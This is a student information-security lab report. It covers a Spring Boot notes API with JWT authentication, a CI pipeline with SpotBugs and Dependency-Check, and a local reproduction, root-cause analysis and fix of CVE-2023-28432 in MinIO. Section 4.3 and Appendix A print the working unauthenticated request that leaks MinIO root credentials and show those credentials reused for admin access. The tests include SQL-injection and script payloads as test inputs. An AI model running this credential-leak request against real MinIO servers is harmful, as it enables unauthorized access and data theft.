

<div class="title-page">
<p class="course">Information Security</p>
<h1>Laboratory Work No. 1</h1>
<h2>Secure REST API Development with CI/CD and<br>Real CVE Vulnerability Analysis</h2>
<p class="subtitle">CVE-2023-28432 — MinIO Cluster Information Disclosure</p>
<table class="meta">
<tr><td>Variant</td><td>[Variant number]</td></tr>
<tr><td>Student</td><td>[Surname, Name]</td></tr>
<tr><td>HDU number</td><td>[HDU number]</td></tr>
<tr><td>Group</td><td>CS4</td></tr>
<tr><td>Date</td><td>20 October 2026</td></tr>
</table>
<p class="repo">Public repository: https://github.com/Enahaha/infs-work1-secure-api<br>
Last successful pipeline: https://github.com/Enahaha/infs-work1-secure-api/actions/runs/39237435374</p>
</div>

## Contents

1. [Purpose](#1-purpose)
2. [Secure API development](#2-secure-api-development)
3. [CI/CD and security scanning](#3-cicd-and-security-scanning)
4. [CVE-2023-28432: reproduction, root cause and fix](#4-cve-2023-28432-reproduction-root-cause-and-fix)
5. [Conclusion](#5-conclusion)
6. [References](#6-references)
7. [Appendix A: reproduction commands](#appendix-a-reproduction-commands)
8. [Appendix B: evidence index](#appendix-b-evidence-index)

<div class="page-break"></div>

## 1. Purpose

The purpose of this laboratory work is to go through the complete secure
software development lifecycle in one project: build a REST API with protection
against common OWASP Top 10 issues, integrate static and dependency security
scanners into a CI/CD pipeline, and then reproduce, analyse and remediate a real
CVE in an isolated Vulhub environment.

The work has two parts:

* **Part A — secure API and CI/CD.** A Spring Boot notes API with JWT
  authentication, BCrypt password hashing, SQL-injection protection, HTML output
  escaping, integration tests, SpotBugs/FindSecBugs SAST and OWASP
  Dependency-Check SCA.
* **Part B — real CVE.** CVE-2023-28432, an unauthenticated information
  disclosure in distributed MinIO deployments. The vulnerable three-node
  cluster is started with Docker Compose, the root credentials are leaked, the
  leaked credentials are used to obtain administrative access, the root cause is
  identified in the MinIO source, the environment is upgraded to the fixed
  release, and the attack is shown to fail while normal storage operations still
  work.

The complete source code and evidence are in the public repository
<https://github.com/Enahaha/infs-work1-secure-api>. The successful pipeline is
<https://github.com/Enahaha/infs-work1-secure-api/actions/runs/39237435374>.

## 2. Secure API development

### 2.1 Stack and architecture

| Component | Choice |
|---|---|
| Language / runtime | Java 17 |
| Framework | Spring Boot 4.1.1 (Spring MVC, Spring Security) |
| Build | Maven |
| Persistence | Spring Data JPA + H2 file database |
| Authentication | RS256 JWT, Spring Security OAuth2 resource server |
| Password hashing | BCrypt, cost 12 |
| Tests | JUnit 5, Spring Boot Test, MockMvc |

The application has two entities: `UserAccount` (username and BCrypt hash) and
`Note` (owner ID, content, creation time). Two demo users, `alice` and `bob`, are
created on first start from the `APP_DEMO_PASSWORD` environment variable. Only
BCrypt hashes are stored.

### 2.2 API endpoints

| Method | Path | Authentication | Behaviour |
|---|---|---|---|
| `POST` | `/auth/login` | Public | Accepts `login` and `password`; returns a JWT on success, HTTP 401 otherwise |
| `GET` | `/api/data` | Bearer JWT | Returns only the notes owned by the authenticated user |
| `POST` | `/api/notes` | Bearer JWT | Creates a note for the authenticated user (self-designed endpoint) |

Login:

```bash
curl -i -X POST http://127.0.0.1:8080/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"login":"alice","password":"Local-demo-2026!"}'
```

Successful response: HTTP 200 with `token`, `tokenType: Bearer` and
`expiresIn: 1800`.

Create a note:

```bash
TOKEN='<token>'
curl -i -X POST http://127.0.0.1:8080/api/notes \
  -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"content":"My first secure note"}'
```

Response: HTTP 201. The `ownerId` is taken from the verified JWT; a
client-supplied owner is ignored.

Read notes:

```bash
curl -i http://127.0.0.1:8080/api/data \
  -H "Authorization: Bearer $TOKEN"
```

Response: HTTP 200 with only the caller's notes. Without a token the same
request returns HTTP 401.


**Figure 1.** Login with the demo user returns a signed JWT.


**Figure 2.** `GET /api/data` without an `Authorization` header returns HTTP 401.

### 2.3 Security measures

#### SQL injection

`UserAccountRepository` and `NoteRepository` use Spring Data derived queries.
The framework binds the method arguments as JDBC parameters; no SQL string is
built by concatenating user input:

```java
public interface UserAccountRepository extends JpaRepository<UserAccount, Long> {
    Optional<UserAccount> findByUsername(String username);
}

public interface NoteRepository extends JpaRepository<Note, Long> {
    List<Note> findByOwnerIdOrderByIdAsc(Long ownerId);
}
```

The integration test `passwordsAreHashedAndWrongCredentialsAreRejected` submits
the username `' OR '1'='1` and verifies HTTP 401. The recorded API test also
shows the injection-style login attempt being rejected.

#### Cross-site scripting

Note content is stored as entered and HTML-escaped when it is returned:

```java
public record NoteResponse(Long id, String content, Instant createdAt) {
    static NoteResponse from(Note note) {
        return new NoteResponse(
            note.getId(),
            HtmlUtils.htmlEscape(note.getContent()),
            note.getCreatedAt());
    }
}
```

The test `loginCreateAndReadEscapeHtmlAndIsolateOwners` submits
`<script>alert('x')</script>` and verifies that the JSON response contains
`&lt;script&gt;alert(&#39;x&#39;)&lt;/script&gt;`.


**Figure 3.** A note containing `<script>alert(1)</script>` is returned as
HTML-escaped text.

HTML escaping is appropriate for the HTML-text context of this API. It is not a
substitute for context-specific encoding in JavaScript, CSS or URL contexts, and
clients must not decode the value and insert it as raw HTML.

#### Authentication and authorization

* Passwords are hashed with **BCrypt cost 12**; plaintext passwords are never
  stored or logged.
* A successful login issues an **RS256 JWT** with `iss`, `aud`, `sub`, `iat` and
  `exp`. The subject is the user ID, and the token expires after 1800 seconds.
* The resource-server filter validates the signature, expiration, issuer,
  audience and a positive numeric subject on every protected request.
* The API is stateless and accepts tokens only from the `Authorization: Bearer`
  header. Cookie authentication, HTTP Basic and form login are not configured.
* The test `cookiesAndHttpBasicDoNotAuthenticateRequests` verifies that a valid
  JWT placed in a cookie does not authenticate a request, that Basic credentials
  do not authenticate a request, and that an explicit Bearer token does.
* CSRF protection is disabled because the API does not use browser-automatic
  credentials. The rationale is documented in `docs/SECURITY_REVIEW.md`; the
  same test checks the stateless behaviour.
* Unknown usernames still perform a BCrypt comparison against a dummy hash, and
  unknown-user and wrong-password failures return the same HTTP 401 message.

#### Additional controls

* Bean Validation limits login, password and note fields; malformed JSON returns
  HTTP 400 without a stack trace.
* The H2 console is disabled and the server binds to `127.0.0.1`.
* Spring Security supplies `X-Content-Type-Options: nosniff`,
  `X-Frame-Options: DENY` and cache-control headers.

### 2.4 Functional tests

```bash
mvn test
```

Result: **7 tests, 0 failures, 0 errors**. The tests cover login and token
issuance, BCrypt storage, wrong credentials, SQL-injection-style input,
unauthenticated access, expired/tampered/wrong-issuer/wrong-audience tokens,
note creation and reading, cross-user isolation, HTML escaping, field validation
and malformed JSON.

## 3. CI/CD and security scanning

### 3.1 Pipeline

The workflow is `.github/workflows/ci.yml`. It runs automatically on every push,
on every pull request and on manual dispatch. Two jobs run in parallel:

| Job | Tool | Failure condition |
|---|---|---|
| Tests and SAST | JUnit / Spring Boot, SpotBugs 4.10.5.0 + FindSecBugs 1.14.0 | Test failure; any non-excluded `SECURITY`-category finding; analysis error |
| Dependency vulnerability scan (SCA) | OWASP Dependency-Check 12.2.2 | CVSS ≥ 7 finding; scan error |

The SAST job scans the `SECURITY` category at every confidence level. Four
initial findings were reviewed. Three `SPRING_ENDPOINT` entries are endpoint
inventory rather than vulnerabilities, and the
`SPRING_CSRF_PROTECTION_DISABLED` warning does not apply to a stateless
Bearer-only API. Two narrow exceptions are documented in
`config/spotbugs-reviewed.xml` and `docs/SECURITY_REVIEW.md`; all other security
rules remain enabled. The exceptions do not claim that the application is free
of vulnerabilities.

The SCA job includes test-scope dependencies. The NVD data source is enabled;
OSS Index is disabled because it requires separate credentials. When the
optional `NVD_API_KEY` secret is absent, the script uses the official
Dependency-Check NVD data feed mirror. A scan error or a CVSS ≥ 7 finding fails
the job; the threshold and error checks are not relaxed.

### 3.2 Latest successful run

* Run: <https://github.com/Enahaha/infs-work1-secure-api/actions/runs/39237435374>
* Commit: `50b16bb`
* Result: **success**, both jobs passed
* Tests and SAST: 7 tests passed; 0 SAST findings; 0 analysis errors
* SCA: 70 unique dependencies (134 in total); **0 vulnerable dependencies**


**Figure 4.** The successful GitHub Actions run with both security jobs.


**Figure 5.** The SAST report rendered from the actual `spotbugsXml.xml`.


**Figure 6.** The Dependency-Check summary: 70 unique dependencies, 0
vulnerabilities.

### 3.3 Dependency remediation

Dependency-Check found 11 vulnerabilities in the transitive
`tomcat-embed-core` 11.0.24, 9 of them with CVSS ≥ 7. The build failed as
designed. `pom.xml` now sets `tomcat.version=11.0.27`; the after-fix scan
reports 0 vulnerable dependencies. The before/after HTML and JSON reports and
the scan logs are archived in `docs/security-reports/local/` and are summarized
in `docs/DEPENDENCY_REMEDIATION.md`. This is a real example of the SCA gate
finding and verifying a fix, not a synthetic exercise.

## 4. CVE-2023-28432: reproduction, root cause and fix

### 4.1 Vulnerability overview

| Field | Value |
|---|---|
| CVE | CVE-2023-28432 |
| CVSS v3.1 | **7.5 High** — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| CWE | CWE-200 (Exposure of Sensitive Information) |
| Affected | MinIO distributed deployments from `RELEASE.2019-12-17T23-16-33Z` to before `RELEASE.2023-03-20T20-16-18Z` |
| Fixed | `RELEASE.2023-03-20T20-16-18Z` |
| Lab | Vulhub `minio/CVE-2023-28432`, three-node cluster |

In distributed mode, MinIO nodes use an internal bootstrap endpoint to check
that they share the same `MINIO_*` environment variables. In vulnerable
releases, `POST /minio/bootstrap/v1/verify` returned the complete
`ServerSystemConfig`, including a `MinioEnv` map of environment variables. The
denylist did not exclude the root credentials, so an unauthenticated client
could read `MINIO_ROOT_USER` and `MINIO_ROOT_PASSWORD` in plaintext.

### 4.2 Vulnerable environment

The Vulhub compose file starts three MinIO nodes. Node1 exposes the S3 API on
port 9000 and the web console on port 9001; nodes 2 and 3 are internal cluster
members. The image is `vulhub/minio:2023-02-27T18-10-45Z`, which reports:

```text
minio version RELEASE.2023-02-27T18-10-45Z (commit-id=0ff931dc765d5d8fdddcdf7687fec1b0b194fca9)
Runtime: go1.19.6 linux/amd64
```

The cluster starts with:

```bash
cd vulhub/minio/CVE-2023-28432
docker compose up -d
```

`GET /minio/health/live` returns HTTP 200 and the console returns HTTP 200 when
the cluster is ready.



**Figure 7.** The running 3-node MinIO cluster and the vulnerable release.

### 4.3 Reproduction and impact

No credentials, cookies or S3 signatures are required:

```bash
curl -i -X POST http://127.0.0.1:9000/minio/bootstrap/v1/verify
```

The vulnerable server returns HTTP 200 and a JSON body. The relevant part of the
actual response is:

```json
"MinioEnv": {
  "MINIO_ROOT_USER": "minioadmin",
  "MINIO_ROOT_PASSWORD": "minioadmin-vulhub",
  "MINIO_ACCESS_KEY_FILE": "access_key",
  "MINIO_SECRET_KEY_FILE": "secret_key",
  "...": "..."
}
```


**Figure 8.** The actual unauthenticated response, with the leaked root
credentials highlighted.

The leaked credentials are accepted by the web console:

```bash
curl -i -X POST http://127.0.0.1:9001/api/v1/login \
  -H 'Content-Type: application/json' \
  -d '{"accessKey":"minioadmin","secretKey":"minioadmin-vulhub"}'
```

Result: HTTP 204 with a session cookie. The session lists all buckets. Using the
same credentials through the MinIO client creates a bucket:

```text
Bucket created successfully `leaked/attacker-bucket-033200`.
[2026-10-20 03:32:00 UTC]     0B attacker-bucket-033200/
[2026-10-20 03:29:54 UTC]     0B cve-proof-bucket/
[2026-10-20 03:30:53 UTC]     0B regression-bucket/
```


**Figure 9.** The leaked credentials log in to the console and create a bucket.

This demonstrates loss of confidentiality and administrative write access. In a
real deployment, the same credentials would allow reading, modifying or deleting
objects, changing bucket policies and creating or removing users. Integrity and
availability are not directly affected by the disclosure itself, but they follow
from the administrative access obtained with the leaked credentials.

### 4.4 Root cause

In `cmd/bootstrap-peer-server.go` at
`RELEASE.2023-02-27T18-10-45Z`, `getServerSystemCfg()` builds `MinioEnv` from
every environment variable beginning with `MINIO_`, skipping only a small
denylist:

```go
var skipEnvs = map[string]struct{}{
	"MINIO_OPTS":         {},
	"MINIO_CERT_PASSWD":  {},
	"MINIO_SERVER_DEBUG": {},
	"MINIO_DSYNC_TRACE":  {},
}
```

The root credentials were not in that list, and the values were copied verbatim:

```go
envValues[envK] = env.Get(envK, "")
```

The handler had no caller authentication:

```go
func (b *bootstrapRESTServer) VerifyHandler(w http.ResponseWriter, r *http.Request) {
	ctx := newContext(r, w, "VerifyHandler")
	cfg := getServerSystemCfg()
	logger.LogIf(ctx, json.NewEncoder(w).Encode(&cfg))
}
```

The route is registered on the bootstrap router under
`/minio/bootstrap/v1/verify`. It is served on the same listener as the S3 API,
but the S3 request-signature middleware does not cover this reserved internal
path. The handler therefore accepted requests from any client that could reach
port 9000 and returned the configuration before any authentication check.

This is an access-control and data-exposure design error (CWE-200), not a
memory-safety bug. The vulnerable code combined three mistakes: an internal
endpoint was exposed on a public listener, the endpoint did not authenticate its
caller, and the response included secrets because the denylist was incomplete.

The upstream fix is commit
[`3b5dbf9`](https://github.com/minio/minio/commit/3b5dbf90468b874e99253d241d16d175c2454077)
("allow bootstrapping to validate internode tokens"). It adds the four
sensitive keys to `skipEnvs`, hashes the remaining environment values, and calls
`storageServerRequestValidate(r)` before building the response:

```go
if err := storageServerRequestValidate(r); err != nil {
    b.writeErrorResponse(w, err)
    return
}
```

`storageServerRequestValidate` in `cmd/storage-rest-server.go` extracts a
Bearer JWT, verifies it with the cluster's active secret key, requires the
access key or subject to match the active credential, requires the audience to
equal the URL raw query, and requires the `X-Minio-Time` header to be within 15
minutes. Only a real storage-server peer can produce such a token.


**Figure 10.** The upstream diff: sensitive keys are skipped and hashed, and the
verify handler validates an internode JWT.

### 4.5 Applied fix

The lab fix upgrades the image in `docker-compose.yml` from the vulnerable
release to the first fixed release:

```yaml
services:
  node1:
    image: minio/minio:RELEASE.2023-03-20T20-16-18Z
    command:
      - server
      - --console-address
      - :9001
      - http://node1:9000/mnt/data1
      - http://node2:9000/mnt/data2
      - http://node3:9000/mnt/data3
    environment:
      - MINIO_ROOT_USER=minioadmin
      - MINIO_ROOT_PASSWORD=minioadmin-vulhub
```

The same image and command are used for node2 and node3. The complete fixed
file is included in the submission folder
`fixes/CVE-2023-28432/docker-compose.yml`. The official image uses `server ...`
as the command; its entrypoint prepends `minio`. The Vulhub image used
`minio server ...`.

Apply and restart:

```bash
cd vulhub/minio/CVE-2023-28432
docker compose down
docker compose up -d
```

The fixed server reports `RELEASE.2023-03-20T20-16-18Z`. The fix is effective
for three reasons:

1. the fixed release contains the upstream denylist and hashing change, so the
   root credentials are no longer serialized into `MinioEnv`;
2. the fixed `VerifyHandler` requires an internode JWT, so an unauthenticated
   caller is rejected before the configuration is built;
3. the upgrade removes the vulnerable code instead of merely hiding the route.
   A reverse proxy or firewall rule blocking the path would be a compensating
   control, but it would leave the vulnerable binary running.

Because the credentials may have leaked before the upgrade, a real incident
response should also rotate the root credentials and review access logs. The lab
keeps the Vulhub defaults to make the reproduction deterministic.

### 4.6 Verification

Repeat the exact request from Section 4.3:

```bash
curl -i -X POST http://127.0.0.1:9000/minio/bootstrap/v1/verify
```

Actual result:

```text
HTTP/1.1 403 Forbidden
Content-Type: text/plain; charset=utf-8
Content-Length: 17

JWT token missing
```

No environment variables and no credentials are returned. The attack no longer
works.


**Figure 11.** The same unauthenticated request receives HTTP 403 from the fixed
release.

### 4.7 Regression testing

The fix must not break normal object-storage functionality. The following
checks were run after the upgrade:

1. `GET /minio/health/live` returns HTTP 200.
2. Web-console login returns HTTP 204; the bucket list returns HTTP 200.
3. `mc mb` creates `regression-bucket-033200`.
4. `mc cp` uploads a 35-byte object and `mc cat` returns its content:
   `regression-ok 2026-10-20T03:31:19Z`.
5. The buckets created before the fix (`cve-proof-bucket`,
   `attacker-bucket-033200`) are still present and readable; the fixed cluster
   lists four buckets.


**Figure 12.** Bucket creation, object upload/download and console login all
work after the fix.

### 4.8 Discussion

The vulnerability is a good example of a security problem that is not caused by
a memory corruption or a missing input filter. The endpoint was intentionally
internal, but it was exposed on a public listener, lacked authentication, and
returned a configuration object whose denylist was incomplete. Each of these
would be a defensible design decision in isolation; together they produced a
high-severity credential leak.

The fix is also instructive because it uses defence in depth: the response no
longer contains plaintext secrets, and the handler now requires a valid
internode token. Either layer would reduce the impact; together they remove the
vulnerability and make accidental regression less likely. The regression tests
show that hardening the internal endpoint does not break the public S3 API or
the cluster bootstrap process.

## 5. Conclusion

Work 1 produced a working secure API, an automated security pipeline and a
complete real-CVE case study:

* **API functionality:** login, authenticated data retrieval and note creation
  are implemented and tested. The API returns correct status codes and isolates
  users' notes.
* **Security measures:** Spring Data parameter binding prevents SQL injection;
  HTML escaping protects the HTML-text output context; BCrypt protects
  passwords; RS256 JWT authentication with issuer/audience/expiry/subject
  validation protects the endpoints. Cookie and Basic authentication are
  rejected, and the CSRF exception is documented and tested.
* **CI/CD:** GitHub Actions runs tests, SpotBugs/FindSecBugs SAST and OWASP
  Dependency-Check SCA on every push and pull request. The latest successful run
  has 7 passing tests, 0 SAST findings, and 0 vulnerable dependencies after a
  real Tomcat CVE remediation.
* **CVE-2023-28432:** the vulnerable MinIO cluster was started, the
  unauthenticated environment leak was reproduced, the leaked root credentials
  were used to obtain admin access and create a bucket, the root cause was
  traced to the missing denylist entries and missing caller authentication, the
  environment was upgraded to the fixed release, the attack was blocked with
  HTTP 403, and regression tests confirmed that bucket and object operations
  and the console still work.

The submitted repository contains the code, the CI configuration, the CVE
write-up, the source diff, the evidence and the fixed compose file in
`fixes/CVE-2023-28432/`. The main limitations are the educational nature of the
API (random JWT key per start, no refresh/logout/rate limiting, local H2
database) and the fact that SAST/SCA passing does not prove the absence of
vulnerabilities.

## 6. References

1. Laboratory manual, Work 1: Secure REST API Development with CI/CD and Real
   CVE Vulnerability Analysis.
2. OWASP Top 10 — <https://owasp.org/www-project-top-ten/>
3. OWASP Cheat Sheet Series — <https://cheatsheetseries.owasp.org/>
4. Spring Security JWT resource server —
   <https://docs.spring.io/spring-security/reference/servlet/oauth2/resource-server/jwt.html>
5. GitHub Actions — <https://docs.github.com/en/actions>
6. OWASP Dependency-Check — <https://dependency-check.github.io/DependencyCheck/>
7. SpotBugs — <https://spotbugs.github.io/>
8. FindSecBugs — <https://github.com/find-sec-bugs/find-sec-bugs>
9. NVD — CVE-2023-28432 — <https://nvd.nist.gov/vuln/detail/CVE-2023-28432>
10. MinIO advisory GHSA-6xvq-wj2x-3h3q —
    <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
11. MinIO fix commit `3b5dbf9` —
    <https://github.com/minio/minio/commit/3b5dbf90468b874e99253d241d16d175c2454077>
12. Vulhub `minio/CVE-2023-28432` —
    <https://github.com/vulhub/vulhub/tree/master/minio/CVE-2023-28432>

<div class="page-break"></div>

## Appendix A: reproduction commands

### A.1 API

```bash
export APP_DEMO_PASSWORD='Local-demo-2026!'
mvn spring-boot:run
mvn test
```

### A.2 CI checks

```bash
mvn -B -ntp -Psast -DskipTests compile spotbugs:check
bash scripts/run-sca.sh
```

### A.3 Vulnerable MinIO environment

```bash
cd vulhub/minio/CVE-2023-28432
docker compose up -d
curl -i -X POST http://127.0.0.1:9000/minio/bootstrap/v1/verify
```

### A.4 Fixed environment

```bash
cd vulhub/minio/CVE-2023-28432
docker compose down
cp /path/to/fixes/CVE-2023-28432/docker-compose.yml docker-compose.yml
docker compose up -d
curl -i -X POST http://127.0.0.1:9000/minio/bootstrap/v1/verify
```

### A.5 Regression

```bash
docker run --rm --entrypoint sh --add-host=host.docker.internal:host-gateway \
  minio/mc:latest -c '
    mc alias set fixed http://host.docker.internal:9000 \
      minioadmin minioadmin-vulhub &&
    mc mb fixed/regression-check &&
    mc ls fixed'
```

## Appendix B: evidence index

| Evidence | Location |
|---|---|
| API screenshots (login, 401, XSS, isolation, tampered JWT) | `docs/screenshots/api/` |
| GitHub Actions overview | `docs/screenshots/ci/01_github_actions_all_checks_passed_39237435374.png` |
| SAST report | `docs/screenshots/ci/02_sast_report.png` |
| SCA report | `docs/screenshots/ci/03_sca_report_summary.png` |
| CVE environment and version | `docs/screenshots/cve/01_vulnerable_cluster.png` |
| CVE environment leak | `docs/screenshots/cve/02_exploit_env_leak.png` |
| Leaked credentials used for admin access | `docs/screenshots/cve/03_leaked_creds_impact.png` |
| Upstream fix diff | `docs/screenshots/cve/04_fix_diff.png` |
| Attack blocked after fix | `docs/screenshots/cve/05_exploit_blocked.png` |
| Regression after fix | `docs/screenshots/cve/06_regression_after_fix.png` |
| Raw CVE transcripts | `docs/cve/CVE-2023-28432/transcripts/` |
| MinIO source diff and NVD record | `docs/cve/CVE-2023-28432/source/` |
| Fixed compose file | `fixes/CVE-2023-28432/docker-compose.yml` |
